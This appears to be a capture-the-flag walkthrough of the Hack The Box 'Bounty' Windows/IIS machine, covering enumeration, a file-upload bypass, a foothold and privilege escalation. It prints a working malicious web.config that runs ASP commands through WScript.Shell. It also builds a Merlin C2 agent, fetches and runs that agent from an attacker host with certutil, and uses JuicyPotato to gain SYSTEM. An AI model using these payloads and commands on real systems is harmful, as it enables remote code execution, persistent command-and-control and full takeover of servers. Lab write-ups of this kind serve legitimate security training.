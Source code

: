 ### keyword

aspx upload bypass rce, merlin, juicepotato, gobuster

### information

Nmap 7.70 scan initiated Mon Mar 11 17:21:03 2019 as: nmap -sC -sV -oA nmap  bounty

Nmap scan report for bounty
Host is up (0.43s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

### enum the website

- test the website

  - firefox->http://bounty/a.aspx

    - Server Error in '/' Application.               *The resource cannot be found.*                              **Description:** HTTP 404. The resource you are looking  for (or one of its dependencies) could have been removed, had its name  changed, or is temporarily unavailable.  Please review the following URL  and make sure that it is spelled correctly.             

      Requested URL:/a.aspx

- gobuster -w  directory-list-2.3-medium.txt -u http://bounty  -x aspx

  - transfer.aspx
  - UploadedFiles

see the website 

![transfer.asp](https://raw.githubusercontent.com/Stenson00o/penetration_tools/master/images/transfer.aspx.png)

as the website, you can see this is a upload file web api, so we can teset the api,

what file can upload success! so direct to "**/usr/share/wordlists/SecLists# cat  ./Discovery/Web-Content/raft-small-extensions.txt **" and the we can use **burpsuite** **intruder**  plugin to spider the website, test what file we can upload successfully.

![spider](https://github.com/Stenson00o/penetration_tools/blob/master/images/testuploadextension1.png?raw=true)

![spider2](https://github.com/Stenson00o/penetration_tools/blob/master/images/testuploadextension2.png?raw=true)

as you see that, we can upload config, jpg, gif, swf, png. but maybe the  jpg, gif,swf can not be useful for us , because the image don't allow us to execute any code , exclude LFI(local file include). 

anyway, we can Google the  **aspx upload bypass with config , doc or something interesting**

here is an article about"**aspx upload bypass rce**"  [003Random’s Blog](https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/) . this guys introduce the how to use "**web.config**"  to execute aspx script. such as:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!–-
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("whoami")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>
-–>
```

###  USE merlin

next step, we want to get the reverse shell by  [merlin](https://github.com/Ne0nd0g/merlin)  , execute the command in below:

- go get github.com/Ne0nd0g/merlin
- cd /opt; git clone https://github.com/Ne0nd0g/merlin.git
- cd /opt/merlin/data/x509; 
- openssl req -x509  -newkey rsa:4096  -nodes -keyout server.key -out server.crt -
  days 365  -subj '/CN=root'
- go run cmd/merlinserver/main.go (test if or not working!!)

###   compile  the  merlin agent for windows x64 exe

[Building or Running Merlin From Source Code](https://github.com/Ne0nd0g/merlin/wiki/Building-or-Running-from-Source#building-or-running-merlin-from-source-code) 

 GOOS=windows GOARCH=amd64  go build  -ldflags "-X main.url=https://10.10.1
4.27:443/" -o Agent.exe  main.go

start server:

go run cmd/merlinserver/main.go -i tun0



### download to the victim machine

certutil -urlcache -split -f http://server/agent.exe  c:\\users\\public\agent.exe

'''asp'''

<!---
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("certutil.exe -urlcache -split -f http://10.10.14.27/agent.exe c:\\users\\public\agent.exe")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>
--->

execute the agent.exe

`<% Response.write("-"&"->")`
`Response.write("<pre>")`
`Set wShell1 = CreateObject("WScript.Shell")`
`Set cmd1 = wShell1.Exec("cmd /c c:\users\public\agent.exe")`
`output1 = cmd1.StdOut.Readall()`
`set cmd1 = nothing: Set wShell1 = nothing`
`Response.write(output1)`
`Response.write("</pre><!-"&"-") %>`
`-–>`

now we can see what the privilege we hava, **cmd whoami /priv**  in merlin

![privilege](https://github.com/Stenson00o/penetration_tools/blob/master/images/seimpertional.png?raw=true)



ok, now we can get be privilge by https://github.com/ohpe/juicy-potato

 upload  /root/htb/Bounty/www/jp.exe c://users//public//jp.exe

cmd c:\\users\\public\\jp.exe -t * -p "c:\\users\\public\\agent.exe" -l 9000

![bingo](https://github.com/Stenson00o/penetration_tools/blob/master/images/juicepotatoExecuteMerlinAgent.png?raw=true)


